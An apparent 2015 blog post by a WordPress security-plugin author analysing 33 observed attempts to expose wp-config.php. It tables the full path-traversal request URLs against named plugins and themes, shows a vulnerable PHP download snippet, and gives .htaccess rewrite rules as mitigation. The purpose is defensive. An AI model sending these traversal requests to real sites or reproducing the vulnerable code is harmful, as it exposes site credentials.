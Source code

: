 ```yaml
---
layout: post
title:  "Prevent exposure of wp-config.php"
date:   2015-10-24 13:30:00
categories: article
published: true
script: []
inline:
---
```


From July to September, 33 types of malicious requests to attempt exposing the 
`wp-config.php` via vulnerable plugins and themes had been observed on my site.
I analyzed all of them to identify if [IP Geo Block][IP-Geo-Block] can block 
these or not.

<!--more-->

Unfortunately, I could not find all the causes of exposure because most of 
them were already removed from the WordPress repository. So I can't say the 
right thing with confidence, but the only 2 of these could be blocked by 
[IP Geo Block][IP-Geo-Block] even if they were from the forbidden countries.

In this article, I should clarify how to prevent exposure of `wp-config.php` 
against such malicous requests.

### <span id="sec1">Analysis of Attack Vectors</span> ###

Before showing the results, I'll show you the description of the terms same as 
in [this article][Analysis].

```text
Attack Vector = Type x Path
```

where:

- **Type**: The type of vulnerability that an attacker can abuse. For example, 
  XSS, SQLI, LFI and so on. Also it includes some certain parameters which 
  are generally called "signature".
- **Path**: The path to the entrance into WordPress where an attacker can 
  deliver the certain type of vulnerability.

The "**Path**" can be categorized into following : 

| Abbreviation of **Path** | Description           |
|:------------------------:|:----------------------|
| PD                       | **P**lugin **D**irect |
| WP                       | **W**ord **P**ress    |
| N/A                      | **N**ot **A**vailable |

Here's the table of 33 requests attempted to expose my `wp-config.php`. Most 
of them were disclosed recently. [IP Geo Block 2.1.5 and under][IP-Geo-Block] 
can protect the **Path** of <span class="label label-success">WP</span> while 
the <span class="label label-danger">PD</span> (and probably 
<span class="label label-warning">N/A</span>) are not because those never load 
the WordPress core.

<div class="table-responsive">
  <table id="my-table" class="table">
    <thead>
      <tr>
        <th>Disclosed</th>
        <th>Request</th>
        <th>Type</th>
        <th>Path</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td>2015-08-10</td><!-- PD/NG -->
        <td><a href="https://www.exploit-db.com/exploits/37751/" title="WordPress WPTF Image Gallery 1.03 - Aribtrary File Download - Exploits Database">/wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php</a></td>
        <td><abbr title="Aribtrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2015-07-16</td><!-- PD/NG https://github.com/wp-plugins/simple-image-manipulator -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=147" title="Vulnerability">/wp-content/plugins/./simple-image-manipulator/controller/download.php?filepath=../../../../wp-config.php</a></td>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2015-07-12</td><!-- PD/NG https://github.com/wp-plugins/candidate-application-form -->
        <td><a href="https://wpvulndb.com/vulnerabilities/8099" title="Candidate Application Form &lt;= 1.0 - Arbitrary File Download">/wp-content/plugins/candidate-application-form/downloadpdffile.php?fileName=../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2015-07-09</td><!-- PD/NG https://wordpress.org/plugins/ibs-mappro/developers/ -->
        <td><a href="http://www.securityfocus.com/bid/75698" title="WordPress IBS Mappro Plugin 'download.php' Arbitrary File Download Vulnerability">/wp-content/plugins/ibs-mappro/lib/download.php?file=../../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2015-07-05</td><!-- PD/NG https://github.com/wp-plugins/image-export -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=135" title="Vulnerabilit">/wp-content/plugins/image-export/download.php?file=../../../wp-config.php</a></td>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2015-07-05</td><!-- PD/NG https://wordpress.org/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/developers/ -->
        <td><a href="https://www.exploit-db.com/exploits/37494/" title="WordPress S3Bubble Cloud Video With Adverts &amp; Analytics 0.7 - Arbitrary File Download - Exploits Database">/wp-content/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/assets/plugins/ultimate/content/downloader.php?path=../../../../../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2015-07-05</td><!-- OK https://wordpress.org/plugins/wp-ecommerce-shop-styling/developers/ -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=136" title="Vulnerabilit">/wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=../../../../wp-config.php</a></td>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
      </tr>
      <tr>
        <td>2015-07-02</td><!-- OK https://github.com/wp-plugins/wp-swimteam/commit/3652df6c40d493cebb3e19f414edb0898d636bd5 -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=134" title="Vulnerabilit">/wp-content/plugins/wp-swimteam/include/user/download.php?file=../../../../../wp-config.php&amp;filename=../../../../../wp-config.php&amp;contenttype=text/html&amp;transient=1&amp;abspath=/usr/share/wordpress</a></td>
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
      </tr>
      <tr>
        <td>2015-06-10</td><!-- PD/NG https://github.com/wp-plugins/history-collection -->
        <td><a href="https://www.exploit-db.com/exploits/37254/" title="WordPress History Collection &lt;= 1.1.1 - Arbitrary File Download - Exploits Database">/wp-content/plugins/history-collection/download.php?var=../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2015-04-18</td><!-- N/A NG -->
        <td><a href="https://packetstormsecurity.com/files/131502/WordPress-WP-Mon-Arbitrary-File-Download.html" title="WordPress WP-Mon Arbitrary File Download - Packet Storm">/wp-content/plugins/wp-moN/Assets/download.php?type=octet/stream&amp;path=../../../../&amp;name=wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2015-04-13</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/36733/" title="WordPress Plugin 'WP Mobile Edition' 2.2.7 - Remote File Disclosure Vulnerability - Exploits Database">/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php</a></td>
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2015-03-26</td><!-- PD/NG https://github.com/wp-plugins/aspose-cloud-ebook-generator/commit/1c51e382fed7f3025fbe4469a729fd0aea7a1231 -->
        <td><a href="https://packetstormsecurity.com/files/131040/WordPress-Aspose-Cloud-eBook-Generator-File-Download.html" title="WordPress Aspose Cloud eBook Generator File Download - Packet Storm">/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2015-02-16</td><!-- N/A -->
        <td><a href="http://milw00rm.org/exploits/7497" title="Wordpress Justified Image Grid 2.0.1 - Multiple (LFD/XSS) Vulnerabilities">/wp-content/plugins/justified-image-grid/download.php?file=file:///var/www/wp-config.php</a></td>
        <td><abbr title="Local File Disclosure">LFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/markant/download.php?file=../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/MichaelCanthony/download.php?file=../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/felis/download.php?file=../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/SMWF/inc/download.php?file=../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/TheLoft/download.php?file=../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/trinity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/urbancity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/yakimabait/download.php?file=./wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-07</td><!-- N/A -->
        <td><a href="https://wpvulndb.com/vulnerabilities/7710" title="ChurcHope Theme Local File Inclusion (LFI)">/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php</a></td>
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-12-06</td><!-- N/A -->
        <td><a href="http://www.homelab.it/index.php/2014/12/06/wordpress-ajax-store-locator-arbitrary-file-download-vulnerability/" title="Wordpress Ajax Store Locator Arbitrary File Download Vulnerability">/wp-content/plugins/ajax-store-locator-wordpress_0/sl_file_download.php?download_file=../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-09-09</td><!-- PD/NG https://github.com/wp-plugins/wp-support-plus-responsive-ticket-system/commit/42d48000a489206243beaabfe798d02d411bd330#diff-29 -->
        <td><a href="https://www.exploit-db.com/exploits/34589/" title="WordPress WP Support Plus Responsive Ticket System 2.0 Plugin - Multiple Vulnerabilities - Exploits Database">/wp-content/plugins/wp-support-plus-responsive-ticket-system/includes/admin/downloadAttachment.php?path=../../../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/34578/" title="WordPress Acento Theme view-pdf.php file param - Arbitrary File Download - Exploits Database">/wp-content/themes/acento/includes/view-pdf.php?download=1&amp;file=/path/wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128188/WordPress-Antioch-Arbitrary-File-Download.html" title="WordPress Antioch Arbitrary File Download - Packet Storm">/wp-content/themes/antioch/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-09-07</td><!-- N/A -->
        <td><a href="https://cxsecurity.com/issue/WLB-2014090037" title="Wordpress Authentic Theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/authentic/includes/download.php?file=../../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-09-07</td><!-- N/A http://www.organizedthemes.com/themes/epic/ -->
        <td><a href="http://cxsecurity.com/issue/WLB-2014090036" title="Wordpress epic theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/epic/includes/download.php?file=wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-09-03</td><!-- N/A NG -->
        <td><a href="https://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html" title="Slider Revolution Plugin Critical Vulnerability Being Exploited - Sucuri Blog">/wp-admiN/Admin-ajax.php?action=revslider_show_image&amp;img=../wp-config.php</a></td>
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-04-14</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/32861/" title="WordPress Theme LineNity 1.20 - Local File Inclusion - Exploits Database">/wp-content/themes/linenity/functions/download.php?imgurl=../../../../wp-config.php</a></td>
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-08-31</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128101/WordPress-NativeChurch-lote27-FR0_theme-acento-File-Download.html" title="WordPress NativeChurch / lote27 / FR0_theme / acento File Download - Packet Storm">/wp-content/themes/lote27/download.php?download=../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
      <tr>
        <td>2014-08-01</td><!-- https://github.com/wp-plugins/contus-video-gallery/releases -->
        <td><a href="https://wpvulndb.com/plugins/contus-video-gallery" title="WordPress Plugin: contus-video-gallery">/wp-content/plugins/contus-video-gallery/hdflvplayer/download.php?f=../../../../wp-config.php</a></td>
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
      </tr>
      <tr>
        <td>2011-09-19</td><!-- N/A http://plugins.svn.wordpress.org/filedownload/ -->
        <td><a href="https://www.exploit-db.com/exploits/17858/" title="WordPress Filedownload Plugin 0.1 - download.php Remote File Disclosure Vulnerability - Exploits Database">/wp-content/plugins/filedownload/download.php?path=../../../wp-config.php&amp;type=aplication/pdf</a></td>
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
      </tr>
    </tbody>
  </table>
</div>

### <span id="sec2">What's the cause?</span> ###

As you can see, most of them had their own download function like 
`download.php`. Typical OMG <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f631.png)
</span> code in there are like following :

{% highlight php %}
<?php
$file = $_GET['file'];
if (file_exists('../../uploads/xxxx/'.$file)) {
    readfile('../../uploads/xxxx/'.$file);
    exit();
}
?>
{% endhighlight %}

This kind of vulnerability is caused by [Directory Traversal][OWASP] attack.

### <span id="sec3">How to protect my site against such OMG code?</span> ###

First and foremost, we should consider to make the **Path** transformed from 
<span class="label label-danger">PD</span> to
<span class="label label-success">WP</span>. If those code have a chance to 
load `wp-load.php` before they were excuted, [IP Geo Block][IP-Geo-Block] can 
block the attacks.

To achieve this, please consider to put the following directives into the 
`.htaccess` in your plugins directory for example :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteCond %{REQUEST_URI} !ip-geo-block/rewrite.php$
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

The absolute path of `/wp-content/plugins/` should be changed according to 
your site configuration. And here's the example in themes directory :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

Those will redirect a request, which is pointed to 
`/wp-content/plugins/.../*.php` or to 
`/wp-content/themes/.../*.php`, to the [rewrite.php][WritePHP] in 
[IP Geo Block][IP-Geo-Block] in order to load `wp-load.php` and then it will 
be validated by contry code or WP-ZEP <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f4aa.png)
</span>.

Another consideration for **Type** in **Attack Vector** is that 
[IP Geo Block][IP-Geo-Block] should filter out the "**malicious signature**" 
such as `wp-config.php` or `passwd` to defence against attacks from the 
permitted countries.

I'll provide you this functionarity in the next release (may be 2.2.0) !! 
<span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f63c.png)
</span>

[IP-Geo-Block]: https://wordpress.org/plugins/ip-geo-block/ "WordPress › IP Geo Block « WordPress Plugins"
[Analysis]:     {{ "/article/analysis-attack-vector.html" | prepend: site.baseurl }} "Analysis of Attack Vector against WP Plugins"
[OWASP]:        https://www.owasp.org/index.php/Path_Traversal "Path Traversal - OWASP"
[WritePHP]:     https://github.com/tokkonopapa/WordPress-IP-Geo-Block/blob/master/ip-geo-block/rewrite.php "WordPress-IP-Geo-Block/rewrite.php at master - tokkonopapa/WordPress-IP-Geo-Block"
